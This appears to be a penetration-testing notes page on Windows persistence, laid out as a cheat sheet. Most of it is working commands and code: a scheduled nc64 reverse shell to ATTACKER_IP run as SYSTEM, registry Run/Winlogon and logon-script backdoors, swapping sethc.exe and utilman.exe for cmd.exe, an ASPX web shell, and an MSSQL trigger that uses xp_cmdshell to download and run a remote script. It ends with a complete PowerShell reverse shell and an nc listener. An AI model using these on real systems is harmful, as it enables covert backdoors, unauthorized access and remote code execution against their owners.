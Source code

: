 ```yaml
---
title: "Persistence"
tagName: persistence
search: exclude
permalink: act_persistence.html
sidebar: home_sidebar
toc: false
folder: act
---
```


## Any access, action or change to a system that gives an attacker persistent presence on the system.



Windows

Task Scheduler

Example backdoor (nc64) scheduled
schtasks /create /sc minute /mo 1 /tn <TASKNAME> /tr "c:\tools\nc64 -e cmd.exe ATTACKER_IP 4449" /ru SYSTEM

Check it's running...
schtasks /query /tn thm-taskbackdoor
Hide the schedule!
Delete this key
HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Schedule\TaskCache\Tree\<TASKNAME>\SD

Startup folder

C:\Users\<your_username>\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup
or all users here:
C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp

Place your reverse shell script in here to be triggered on login


Run / RunOnce

HKCU\Software\Microsoft\Windows\CurrentVersion\Run
HKCU\Software\Microsoft\Windows\CurrentVersion\RunOnce
HKLM\Software\Microsoft\Windows\CurrentVersion\Run
HKLM\Software\Microsoft\Windows\CurrentVersion\RunOnce

Add a new key with data pointing to your reverse shell.


Winlogon
HKLM\Software\Microsoft\Windows NT\CurrentVersion\Winlogon\ 
For either of these keys
Userinit
shell

simply append a comma followed by your reverse shell or other script after the default executables.

Logon scripts
You can also place your script call in the script file mentioned here:
HKLM\Software\Microsoft\Windows NT\CurrentVersion\Winlogon\Userinit\UserInitMprLogonScript

If you have physical access...

The Sticky keys executable isn't used by most users, and can be replaced with a binary with more nefarious intentions...
C:\Windows\System32\sethc.exe
Then simply press the shift key 5 times to run the executable.

takeown /f c:\Windows\System32\sethc.exe
icacls C:\Windows\System32\sethc.exe /grant Administrator:F
copy c:\Windows\System32\cmd.exe C:\Windows\System32\sethc.exe

Now when the machine is locked you can just press shift 5 times and get access

Utilman

takeown /f c:\Windows\System32\utilman.exe
icacls C:\Windows\System32\utilman.exe /grant Administrator:F
copy c:\Windows\System32\cmd.exe C:\Windows\System32\utilman.exe


Hiding persistence through existing services

Using Web Shells

https://github.com/tennc/webshell/blob/master/fuzzdb-webshell/asp/cmdasp.aspx
move shell.aspx C:\inetpub\wwwroot\

icacls shell.aspx /grant Everyone:F



http://MACHINE_IP/shell.aspx


Using MSSQL as a Backdoor

Run the following SQL
sp_configure 'Show Advanced Options',1;
RECONFIGURE;
GO
sp_configure 'xp_cmdshell',1;
RECONFIGURE;
GO
## Now allow any DB user to impersonate other DB users (admin for example)
USE master
GRANT IMPERSONATE ON LOGIN::sa to [Public];
# Now crete a trigger
USE HRDB
CREATE TRIGGER [sql_backdoor]
ON HRDB.dbo.Employees 
FOR INSERT AS

EXECUTE AS LOGIN = 'sa'
EXEC master..xp_cmdshell 'Powershell -c "IEX(New-Object net.webclient).downloadstring(''http://ATTACKER_IP:8000/evilscript.ps1'')"';


$client = New-Object System.Net.Sockets.TCPClient("ATTACKER_IP",4454);

$stream = $client.GetStream();
[byte[]]$bytes = 0..65535|%{0};
while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){
    $data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);
    $sendback = (iex $data 2>&1 | Out-String );
    $sendback2 = $sendback + "PS " + (pwd).Path + "> ";
    $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);
    $stream.Write($sendbyte,0,$sendbyte.Length);
    $stream.Flush()
};

$client.Close()
run a web server to serve your new script
python3 -m http.server 
2nd shell to receive the reverse shell.
nc -lvp 4454

Finally Trigger the trigger.




{% include taglogic.html %}

{% include links.html %}
